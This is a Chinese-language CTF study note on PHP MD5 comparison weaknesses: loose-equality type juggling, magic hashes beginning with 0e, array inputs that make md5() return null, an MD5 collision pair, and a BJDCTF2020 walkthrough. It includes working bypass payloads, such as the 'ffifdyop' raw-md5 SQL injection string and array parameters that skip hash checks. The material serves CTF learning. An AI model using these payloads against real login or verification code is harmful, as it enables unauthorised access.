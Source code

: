 # MD5漏洞

## 数字与字符串

```
var_dump(0=='a')

var_dump('0'=='a')
```

前者为ture，后者为false。在php中如果在将字符串转换为整型时，前面是数字，后面是字母的字符串，则取字符串的第一个字母前面的数字。

实例：
```
<?php

if(123=="123abc"){
echo intval("123abc");
}

?>
```


## MD5漏洞

### 如果两个MD5的值进行比较时，这两个值的开头都为0E的话，则它们的hash值会被默认为0，那么在php的比较中两个不同数值的MD5的值进行比较时，就会相同

而hash值开头为0E的数有
```
以下值在md5加密后以0E开头：

    QNKCDZO
    240610708
    s878926199a
    s155964671a
    s214587387a
    s214587387a

以下值在sha1加密后以0E开头：

    sha1(‘aaroZmOk’)
    sha1(‘aaK1STfY’)
    sha1(‘aaO8zKZF’)
    sha1(‘aa3OFF9m’)
```

### php特性
在php中===表示不仅比较两个数值，而且还要比较两个数值的类型
而在MD5加密中，有一个特性：
```
md5([1,2,3])==md5([2,3,4])==null
```
因此如果传入的数值时数组，并且对传入的数组还要进行md5加密，则会实现绕过

实例
```
<?php

if(md5($_GET['a'])===md5($_GET['b'])){

echo "haha";
}
else{
echo "ha";
}
?>
```

### MD5的碰撞

虽然两个数值不同，但是经过md5加密后，数值相同，如果是post提交的话，数值要进行urlencode

下面有两个不同数值的md5相同
```
Param1=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2


Param2=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2

```
## 例题

通过sql注入的尝试，发现不行，就用dirmap扫描，好像也扫不不出什么东西，就用bp抓包,发现了sql语句

![BJDCTF2020 Easy MD51](https://github.com/xiaocheng10/xiaocheng10.github.io/blob/master/image/[BJDCTF2020]Easy MD51.jpg)

通过sql语句中
```
password="'".md5($pass,TRUE)."'"
```

可构造exp
```
<?php

echo ("password="."'".md5($_GET['a'],TRUE)."'");

?>
```
可以知道，当输入为ffifdyop，可以得到
```
password=''or'6É]™é!r,ùíb'

```
构造了一句万能语句，从而实现绕过

而后打开页面源码，可以看见一段代码
```
<!--
$a = $GET['a'];
$b = $_GET['b'];

if($a != $b && md5($a) == md5($b)){
    // wow, glzjin wants a girl friend.
-->
```

可知get提交a[]=1&b[]=2，即可实现绕过

而后又得到了一段代码
```
 <?php
error_reporting(0);
include "flag.php";

highlight_file(__FILE__);

if($_POST['param1']!==$_POST['param2']&&md5($_POST['param1'])===md5($_POST['param2'])){
    echo $flag;
} 
```

由代码中，我们可以再次使用数组绕过，构造param1[]=1&param2[]=2，且用post提交
